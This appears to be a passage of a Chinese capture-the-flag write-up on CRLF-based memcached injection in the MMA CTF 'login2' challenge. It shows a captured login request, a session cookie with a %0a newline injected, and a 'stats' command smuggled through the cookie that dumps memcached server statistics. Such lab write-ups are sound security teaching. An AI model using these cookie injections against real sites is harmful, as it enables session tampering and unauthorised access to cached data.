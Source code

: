 最近的一次ctf中，有一个典型的基于CLRF的Memcache注入。（目前该站可以访问）

`http://login2.chal.mmactf.link/login`

login as admin

登录之后的请求是这样的

```
GET / HTTP/1.1
Host: login2.chal.mmactf.link
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:38.0) Gecko/   20100101 Firefox/38.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://login2.chal.mmactf.link/login
Cookie: ss=c4a613cdf3378b458be9a6d8de6c52c6ab260d1ee5c2d94df6fe260e580b16bb
Connection: keep-alive

```

在测试http头注入的时候，我们发现将%0a注入到cookies中时,也就是请求：

`Cookie: ss=%0ac4a613cdf3378b458be9a6d8de6c52c6ab260d1ee5c2d94df6fe260e580b16bb`

返回如下

```
</div>
<div id="info">
<p>MemcacheError:ERROR  
ERROR</p>
</div>
</body>
</html>

```

恩，memcached出错了，那不就是刚刚提到的error吗？

```
> 1234567890
< ERROR

```

说明这里ss的value代入了memcached。

我们继续在cookies里面注入:ss=%0astats

```
MemcacheError:ERROR
STAT pid 988
STAT uptime 651664
STAT time 1442726665
STAT version 1.4.14 (Ubuntu)
STAT libevent 2.0.21-stable
STAT pointer_size 64
STAT rusage_user 17.256000
STAT rusage_system 18.232000
STAT curr_connections 5
STAT total_connections 946
STAT connection_structures 6
STAT reserved_fds 20
STAT cmd_get 615
STAT cmd_set 188
STAT cmd_flush 0
STAT cmd_touch 0
STAT get_hits 299
STAT get_misses 316
STAT delete_misses 0
```